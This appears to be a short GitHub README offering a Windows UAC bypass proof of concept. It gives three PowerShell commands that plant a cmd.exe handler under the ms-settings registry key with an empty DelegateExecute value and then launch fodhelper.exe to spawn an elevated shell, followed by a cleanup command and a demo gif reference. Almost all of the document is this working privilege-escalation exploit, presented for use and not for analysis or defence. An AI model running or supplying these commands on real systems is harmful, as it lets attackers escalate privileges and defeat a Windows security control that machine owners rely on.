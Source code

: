 # Bypass Windows UAC Technique

## Bypass UAC with 3 Commands
```
#spawn cmd.exe process 
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Value "cmd.exe" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force

#start fodhelper.exe to execute command in the registry
Start-Process "C:\Windows\System32\fodhelper.exe"
```
### Cleanup the registry value 
```
Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
```

![alt text](poc/poc.gif)
